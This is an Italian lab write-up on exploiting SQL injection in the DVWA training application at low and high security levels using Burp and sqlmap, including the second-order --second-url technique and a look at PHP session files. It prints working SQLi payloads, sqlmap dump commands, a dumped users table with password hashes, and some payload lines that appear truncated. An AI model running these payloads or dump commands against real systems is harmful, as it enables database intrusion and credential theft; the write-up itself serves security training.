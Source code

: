 #+TITLE: DVWA – SQLi
#+AUTHOR: Leonardo Tamiano


* SQLi High
  Prima di effettuare il livello hard vediamo come utilizzare ~sqlmap~
  nel livello ~easy~. A tale fine attiviamo il proxy e catturiamo la
  richiesta che viene effettuata

  ----------------
   
  #+begin_example
GET /dvwa/vulnerabilities/sqli/?id=1&Submit=Submit HTTP/1.1
Host: evil.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://evil.com/dvwa/vulnerabilities/sqli/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: security=low; PHPSESSID=l1vgsbhkufl414bik8iifrc91m
Connection: close
  #+end_example

  ----------------
  
  Tramite burp la possiamo salvare in un file con (tasto destro ->
  save item) e possiamo poi chiamare ~sqlmap~ come segue

  #+begin_src sh
sqlmap -r sql_easy_request.xml    
  #+end_src

  Dopo un po' di tempo, otteniamo il seguente output

  ----------------

  #+begin_example
sqlmap identified the following injection point(s) with a total of 154 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=1' OR NOT 9464=9464#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' AND (SELECT 8635 FROM(SELECT COUNT(*),CONCAT(0x7178707671,(SELECT (ELT(8635=8635,1))),0x7170707a71,FLOOR(RAND(0)*2))x FROMS GROUP BY x)a)-- ZnFP&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 8713 FROM (SELECT(SLEEP(5)))WCBw)-- mmPl&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x7178707671,0x4c594d43454244515472616c757677727a4350434f6744785952544d6d59666f535379456f7361ubmit   
  #+end_example

  ----------------
  
  Se poi vogliamo estrapolare tutti i dati di interesse, possiamo
  effettuare il seguente comando

  #+begin_src sh
sqlmap -r sql_easy_request.xml --dump   
  #+end_src
   
  otteniamo quindi le seguenti due tabelle

  ----------------

  #+begin_example
Database: dvwa
Table: users
[5 entries]
+---------+---------+----------------------------------+----------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                           | password                         | last_name | first_name | last_login          | failed_login |
+---------+---------+----------------------------------+----------------------------------+-----------+------------+---------------------+--------------+
| 1       | admin   | /dvwa/hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 | admin     | admin      | 2022-07-23 17:52:48 | 0            |
| 2       | gordonb | /dvwa/hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 | Brown     | Gordon     | 2022-07-23 17:52:48 | 0            |
| 3       | 1337    | /dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b | Me        | Hack       | 2022-07-23 17:52:48 | 0            |
| 4       | pablo   | /dvwa/hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 | Picasso   | Pablo      | 2022-07-23 17:52:48 | 0            |
| 5       | smithy  | /dvwa/hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 | Smith     | Bob        | 2022-07-23 17:52:48 | 0            |
+---------+---------+----------------------------------+----------------------------------+-----------+------------+---------------------+--------------+

Database: dvwa
Table: guestbook
[1 entry]
+------------+------+-------------------------+
| comment_id | name | comment                 |
+------------+------+-------------------------+
| 1          | test | This is a test comment. |
+------------+------+-------------------------+   

  #+end_example

  ----------------
  
  Nel livello ~hard~ però sqlmap non sembra più funzionare, in quanto
  se catturiamo la richiesta all'endpoint ~session-input.php~ otteniamo
  il seguente risultato
   
  #+begin_example
POST /dvwa/vulnerabilities/sqli/session-input.php HTTP/1.1
Host: evil.com
Content-Length: 18
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://evil.com/dvwa/vulnerabilities/sqli/session-input.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: security=high; PHPSESSID=l1vgsbhkufl414bik8iifrc91m
Connection: close

id=1&Submit=Submit   
  #+end_example
   
  #+begin_src sh
sqlmap -r sql_high_request.xml   
  #+end_src

  #+begin_example
[16:01:30] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'- you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option itch '--random-agent'   
  #+end_example

  Il problema è che questo tipo di injection è una sql injection con
  una ~second-order response~, nel senso che l'output associati al
  payload non è mostrato direttamente ma bisogna effettuare una
  seconda richiesta ad un altro endpoint.
   
  #+begin_example
payload con sqli ---> endpoint #1 ---> cambio stato interno + output inutile
richiesta        ---> endpoint #2 ---> output del payload di prima
  #+end_example

  In questo casi possiamo utilizzare la flag ~--second-url~ offerta da ~sqlmap~

  #+begin_src sh
sqlmap -r sql_high_request.xml --second-url=http://evil.com/dvwa/vulnerabilities/sqli/index.php    
  #+end_src

  Così facendo otteniamo nuovamente che il parametro ~id~ è vulnerabile
  ad una sqli
   
  #+begin_example
POST parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 63 HTTP(s) requests:
---
Parameter: id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 2900 FROM (SELECT(SLEEP(5)))dCcN) AND 'TAXB'='TAXB&Submit=Submit

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x716b627671,0x68726c704c457854584679595a574967416d6d526a7761717659
t=Submit
---   
  #+end_example

  E riusciamo a dumpare le informazioni del db come abbiamo fatto
  precedentemente.

* EXTRA: Come vengono salvate le variabili di sessione in php?

  #+begin_src php
$_SESSION[ 'id' ] =  $_POST[ 'id' ]; # scrivere variabile di sessione
# ...
$id = $_SESSION[ 'id' ];             # scrivere variabile di sessione
  #+end_src

  Nel file ~/etc/php/7.3/apache2/php.ini~ è presente l'entry
  ~session.save_path~ che punta al path ~/var/lib/php/sessions~. In
  questa cartella sono salvati una serie di file
   
  #+begin_example
root@kali:/var/lib/php/sessions# ls
sess_omegr89sf6f8t3jmkj9s7aqr5o   
  #+end_example

  e il formato di questi file è sempre ~sess_<COOKIE_ID>~. Il contenuto
  di questo file contiene una struttura dati php serializzata, e
  questa struttura dati contiene tutte le variabili di sessione
   
  #+begin_example
root@kali:/var/lib/php/sessions# cat sess_omegr89sf6f8t3jmkj9s7aqr5o
dvwa|a:2:{s:8:"messages";a:0:{}s:8:"username";s:5:"admin";}id|s:1:"3";session_token|s:32:"81a6949061570eabafcf23194d58a628";   
  #+end_example

  Notiamo che è presente anche il valore del campo ~id~. Modificando
  quel valore siamo in grado di cambiare l'output nella relativa
  pagina dell'applicazione.
